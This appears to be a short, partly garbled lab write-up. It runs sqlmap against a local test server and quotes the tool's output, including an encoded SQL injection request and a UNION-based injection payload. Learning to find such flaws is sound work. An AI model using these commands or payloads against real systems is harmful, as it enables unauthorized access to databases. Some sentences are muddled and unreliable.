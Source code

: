 ![script-ws-payloads](images/script-ws-payloads.png)

# get

We run the script, in our terminal, we type the following command to run the `sqlmap`:

```
sqlmap -u "http://127.0.0.1:1014/?id=1" --batch --dbms SQLite --risk 3 --level 5 --flush-session
```

If `sqlmap` thus reports that I couldn't perform `sqli`, we will change the current **id** (`?id=0.0.2`) to `?id=1`.

In the output of the script, all the requests made by `sqlmap`: `127.0.0.1 - - [25/May/2023 15:14:06] "GET /?id=-1542%27%29%20OR%203852% 3D3852%20AND%20%28%27tTZb%27%20LIKE%20%27tTZb HTTP/1.1" 200 -` And in the output of the terminal, among all, we can see the following message that the `ddbb` is vulnerable to SQLite :

```
the back-end DBMS is SQLite
DBMS back-end: SQLite
```

And it gives us an example of Payload:

```
id=1" UNION ALL SELECT NULL,NULL,CHAR(113,118,106,120,113)||CHAR(113,76,67,87,118,85,75,121,67,84,118,113,89,109,100,78,107,65,118,100,67,79 ,90,115,73,97 ,69,84,66,110,80,66,117,88,70,103,89,75,119,68)||CHAR(113,118,120,107,113),NULL-- Ejwv
```
